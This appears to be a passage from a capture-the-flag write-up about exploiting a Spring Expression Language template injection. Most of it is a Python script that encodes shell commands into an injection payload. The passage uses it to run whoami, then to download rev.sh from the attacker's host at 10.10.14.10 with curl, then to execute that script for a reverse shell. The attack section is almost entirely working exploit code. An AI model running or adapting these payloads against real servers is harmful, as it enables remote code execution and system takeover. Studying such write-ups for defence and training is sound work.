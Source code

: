 ```python
#!/usr/bin/python3  
command = "whoami"  
convert = []  
payload = '*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('  
payload2 = ''  

payload = payload + "T(java.lang.Character).toString(%s)" % ord(command[0])  
for i in range(1,len(command)):  
    char = ""  
    # print(ord(i))  
    char = ord(command[i])  
    payload2 = ".concat(T(java.lang.Character).toString(%s))" % char  
    payload = payload + payload2  
  
payload = payload + ").getInputStream())}"  
print(payload)
```
Replace the command with some payload.
Tried to exploit with direct command `nc` - not working.
After so many tried finally i got the revershell. Damn..
- Step 1: Download the `rev.sh` to victim machine ( i am run `python -m http.server 8088` -  at current directory)
```python
#!/usr/bin/python3  
command = "curl -o /tmp/rev.sh http://10.10.14.10:8088/rev.sh"  
convert = []  
payload = '*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('  
payload2 = ''  

payload = payload + "T(java.lang.Character).toString(%s)" % ord(command[0])  
for i in range(1,len(command)):  
    char = ""  
    # print(ord(i))  
    char = ord(command[i])  
    payload2 = ".concat(T(java.lang.Character).toString(%s))" % char  
    payload = payload + payload2  
  
payload = payload + ").getInputStream())}"  
print(payload)
```
- Step 2:
```python
#!/usr/bin/python3  
command = "bash /tmp/rev.sh"  
convert = []  
payload = '*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('  
payload2 = ''  
  
payload = payload + "T(java.lang.Character).toString(%s)" % ord(command[0])  
for i in range(1,len(command)):  
    char = ""  
    # print(ord(i))  
    char = ord(command[i])  
    payload2 = ".concat(T(java.lang.Character).toString(%s))" % char  
    payload = payload + payload2  
  
payload = payload + ").getInputStream())}"  
print(payload)
```
